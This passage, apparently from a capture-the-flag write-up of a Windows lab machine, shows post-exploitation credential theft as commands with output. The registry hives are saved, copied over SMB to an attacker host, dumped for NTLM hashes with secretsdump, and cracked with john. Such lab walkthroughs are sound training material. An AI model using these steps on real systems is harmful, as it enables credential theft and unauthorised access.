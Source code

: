 ```
C:\Windows\Temp> reg save hklm\system system.bak
The operation completed successfully.

C:\Windows\Temp> reg save hklm\sam sam.bak
The operation completed successfully.
```

I share the **system** and **sam** files with the attacking machine.

```
C:\Windows\Temp>copy sam.bak \\10.9.102.237\kali\sam.bak        
        1 file(s) copied.                                       

C:\Windows\Temp>copy system.bak \\10.9.102.237\kali\system.bak  
        1 file(s) copied.                                       
```

----

#### Dumping hashes:

```
❯ secretsdump.py -sam sam.bak -system system.bak local
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x55bd17830e678f18a3110daf2c17d4c7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
user123:1001:aad3b435b51404eeaad3b435b51404ee:eacb2c6a3aaa4ed476ed2741be8c7a4e:::
[*] Cleaning up...
```

Alternatively, we can obtain the NTLM hashes with the utility `` crackmapexec``` using the user ```user123``` created previously.

![cme](/assets/imgs/blue/cme.png)

-----

##### Breaking NTLM hashes

```
❯ john hash --wordlist=/usr/share/wordlists/rockyou.txt -format=NT
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
user123          (user123)
alqfna22         (Jon)
3g 0:00:00:00 DONE (2021-07-29 16:19) 3.030g/s 10303Kp/s 10303Kc/s 10695KC/s alr19882006..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
